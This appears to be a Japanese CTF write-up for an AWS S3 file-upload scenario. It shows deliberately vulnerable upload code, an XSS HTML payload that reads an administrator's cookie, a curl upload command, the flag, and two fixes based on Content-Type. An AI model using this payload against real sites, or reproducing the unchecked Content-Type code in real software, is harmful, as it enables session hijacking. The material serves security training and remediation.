

# シナリオ 1 - SDK を用いた任意の HTML ファイルのアップロード

[Japanese](./README.md) / [Top](../../README.en.md)

## 起動

```sh
cdk deploy Scenario1
# または
make start-Scenario1
```

## 概要

このシナリオは、AWS SDK を用いた S3 へのファイルのアップロードを模したアプリケーションと管理者がチャレンジの対象となります。チャレンジの最終的な目的は、問い合わせ窓口の先にいる管理者の Cookie を取得することです。
管理者の動きは、"Administrator Operation Mock"が模擬的に行います。管理者は、ユーザーから送られたアプリケーションの URL を閲覧し、その結果を`/delivery`の S3 に保存をします。



## Solution

ここからは、このシナリオの解決策を説明します。

### 動作の整理

対象となるアプリケーションでは、以下のような動作を行います。

1. User は Application のエンドポイントに対してファイルをアップロードするリクエストを送信します。
2. Application は、リクエストを受け取り、そのファイルを S3 にアップロードします。
   - この際、Application は、UUIDv4 を生成し、その UUIDv4 をファイル名として S3 にアップロードします。
3. S3 は、そのファイルを受け取り、そのファイルを保存します。
4. Application は、そのファイルのファイル名を User に返却します。
5. User は、そのファイル名を用いて、そのファイルを閲覧することが可能です。

この際、S3 にアップロードするファイルに対して、特段のチェックは行われていませんでした。

### ソースコードの確認

先に動作の整理をしましたが、実際にどのようにソースコードが実装されているかを確認しましょう。
`cdk/lib/scenario1/application/src/app.ts`をご覧ください。

`/api/upload`のエンドポイントは、以下のように実装されています。

```typescript
server.post('/api/upload', async (request, reply) => {
  const data = await request.file({
    limits: {
      fileSize: 1024 * 1024 * 100,
      files: 1,
    },
  });
  if (!data) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    Body: data.file,
    ContentLength: data.file.bytesRead,
    ContentType: data.mimetype,
  });

  await s3.send(command);
  reply.send(`/upload/${filename}`);
  return reply;
});
```

アプリケーションから、S3 に直接アップロードされる仕様となっており、`ContentType: data.mimetype,`とあるように、アプリケーションにリクエストされたファイルの値が、そのまま S3 にアップロードされています。

そのためユーザーは、HTML ファイルを直接アップロードすることが可能になります。

### 攻略の糸口

このチャレンジシナリオでは、ブラウザが HTML ファイルと認識可能なファイルをアップロードし、その HTML ファイルを経由して、管理者の Cookie を奪取することが目的になります。

この目的を達成する手法は多く存在しますが、今回は単純に管理者の Cookie を HTML としてレンダリングし、`/delivery`の S3 に保存をして、その結果をユーザーが閲覧することで、管理者の Cookie を奪取してみましょう。

アップロードを行うファイルとして、下記の HTML をアップロードすることで、管理者のブラウザで任意の JavaScript を実行することが可能です。
実行される JavaScript は、管理者の Cookie を取得し、その Cookie を HTML としてレンダリングします。

```html
<!-- xss.html -->
<html>
  <body>
    <script>
      document.getElementsByTagName('body')[0].innerHTML = `${document.cookie.split('=')[1]}`;
    </script>
  </body>
</html>
```

先の HTML を保存し、`xss.html`としてください。
その後、以下のコマンドを実行することで、任意の HTML ファイルをアップロードすることが可能です。

```sh
TARGET_HOST="....."
curl -X POST -F "file=@xss.html" https://${TARGET_HOST}/api/upload
```

その後、出力された URL を Report URL に入力することで、管理者の画面で任意の JavaScript を実行することが可能です。
実行後は、`/delivery/{uuid}`の S3 に保存されたファイルを閲覧することで、管理者の Cookie を含んだ HTML ファイルを閲覧することが可能です。

## チャレンジの回答

```
flag{bfe061955a7cf19b12ff0f224e88d65a470e800a}
```

## アップローダーの修正方法

最後に、アップローダーの修正方法を説明します。

`cdk/lib/scenario1/application/src/app.ts`の`/api/upload`に実装が行われています。この実装の中では、特段利用される`Content-Type`のチェックは行われていません。
そこで、対策方法としては、`Content-Type`の値を完全一致でチェックする、もしくは、`Content-Type`の値を決め打ちで入力を行うことで、対策が可能です。

**Fix 1: Content-Type のチェックを行う**

```typescript
server.post('/api/upload', async (request, reply) => {
  const data = await request.file({
    limits: {
      fileSize: 1024 * 1024 * 100,
      files: 1,
    },
  });
  if (!data) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});

  // Fix : MimeType Check
  const allowedMimeTypes = ['image/png', 'image/jpeg', 'image/gif'];
  if (!allowedMimeTypes.includes(data.mimetype)) {
    return reply.code(400).send({ error: 'Invalid file type' });
  }

  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    Body: data.file,
    ContentLength: data.file.bytesRead,
    ContentType: data.mimetype,
  });

  await s3.send(command);
  reply.send(`/upload/${filename}`);
  return reply;
});
```

**Fix 2: Content-Type の値を決め打ちで入力する**

```typescript
server.post('/api/upload', async (request, reply) => {
  const data = await request.file({
    limits: {
      fileSize: 1024 * 1024 * 100,
      files: 1,
    },
  });
  if (!data) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    Body: data.file,
    ContentLength: data.file.bytesRead,
    // Fix : ContentType を決め打ちで入力する
    ContentType: 'application/octet-stream',
    ContentDisposition: `attachment; filename="${filename}.png"`,
  });
  await s3.send(command);
  reply.send(`/upload/${filename}`);
  return reply;
});
```
